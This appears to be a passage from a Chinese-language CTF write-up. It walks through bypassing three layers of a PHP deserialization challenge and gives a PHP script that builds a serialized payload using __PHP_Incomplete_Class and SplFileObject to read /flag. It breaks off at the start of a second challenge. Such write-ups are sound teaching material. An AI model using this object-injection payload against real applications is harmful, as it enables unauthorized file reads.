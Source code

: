 ```php
```

一共三层，第一层 `$this->username == "admin"` 是弱比较，可以把 `$this->username` 直接赋值成 true，这样就能绕过。

第二层是二次绕过，要求 **原对象 **和 **该对象被序列化后再反序列化后** 不一样，这里可以借助 `<font style="color:#4c4f69;background-color:#eff1f5;">__PHP_Incomplete_Class</font>`<font style="color:#4c4f69;background-color:#eff1f5;"> </font><font style="color:#000000;background-color:#eff1f5;">绕过。</font>

<font style="color:#000000;background-color:#eff1f5;">最后一层用 php 的内置类 </font>`<font style="color:#4c4f69;background-color:#eff1f5;">SplFileObject</font>`<font style="color:#4c4f69;background-color:#eff1f5;"> </font><font style="color:#000000;background-color:#eff1f5;">读取 flag 中的内容。</font>

```php
<?php
class Myclass{}
$myclass = new Myclass();
$myclass->abc = NULL;
$temp = Array(
    0 => "SplFileObject",
    1 => "/flag",
    2 => $myclass
);
echo serialize($temp)."\n";
$ser = "a:3:{i:0;s:13:\"SplFileObject\";i:1;s:5:\"/flag\";i:2;O:22:\"__PHP_Incomplete_Class\":1:{s:3:\"abc\";N;}}";
$xx = unserialize($ser);
print_r($xx);
class User{
    public $username = true;
    public $value = "a:3:{i:0;s:13:\"SplFileObject\";i:1;s:5:\"/flag\";i:2;O:22:\"__PHP_Incomplete_Class\":1:{s:3:\"abc\";N;}}";

}
$p = new User();
echo serialize($p);



```



## <font style="color:#5C8D07;">my_anonymous_board</font>
随便写一个留言，发现每一个留言都会有一个 id。

访问对应 id 的路由，就会得到该 id 对应的留言。

如果不存在这个 id，还是会把页面渲染出来。
